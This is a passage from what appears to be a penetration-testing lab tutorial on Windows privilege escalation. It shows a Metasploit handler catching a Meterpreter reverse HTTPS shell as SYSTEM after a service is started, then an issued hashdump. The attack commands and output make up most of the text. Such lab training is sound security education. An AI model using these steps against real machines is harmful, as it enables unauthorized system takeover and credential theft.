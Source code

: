 ```
       =[ metasploit v6.0.9-dev                           ]
+ -- --=[ 2069 exploits - 1123 auxiliary - 352 post       ]
+ -- --=[ 592 payloads - 45 encoders - 10 nops            ]
+ -- --=[ 7 evasion                                       ]

Metasploit tip: Use the resource command to run commands from a file

[*] Processing handler.rc for ERB directives.
resource (handler.rc)> use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
resource (handler.rc)> set PAYLOAD windows/x64/meterpreter/reverse_https
PAYLOAD => windows/x64/meterpreter/reverse_https
resource (handler.rc)> set LHOST 10.10.14.3
LHOST => 10.10.14.3
resource (handler.rc)> set LPORT 8443
LPORT => 8443
resource (handler.rc)> exploit
[*] Started HTTPS reverse handler on https://10.10.14.3:8443

```

### Starting the Service

Start the service, and we should get a session as `NT AUTHORITY\SYSTEM`.

Kernel Exploits

```
C:\htb> net start MozillaMaintenance

The service is not responding to the control function

More help is available by typing NET HELPMSG 2186

```

### Receiving a Meterpreter Session

We will get an error trying to start the service but will still receive a callback once the Meterpreter binary executes.

Kernel Exploits

```
[*] Started HTTPS reverse handler on https://10.10.14.3:8443
[*] https://10.10.14.3:8443 handling request from 10.129.43.13; (UUID: syyuxztc) Staging x64 payload (201308 bytes) ...
[*] Meterpreter session 1 opened (10.10.14.3:8443 -> 10.129.43.13:52047) at 2021-05-14 13:38:55 -0400

meterpreter > getuid

Server username: NT AUTHORITY\SYSTEM

meterpreter > sysinfo

Computer        : WINLPE-WS02
OS              : Windows 10 (10.0 Build 18363).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 6
Meterpreter     : x64/windows

meterpreter > hashdump

```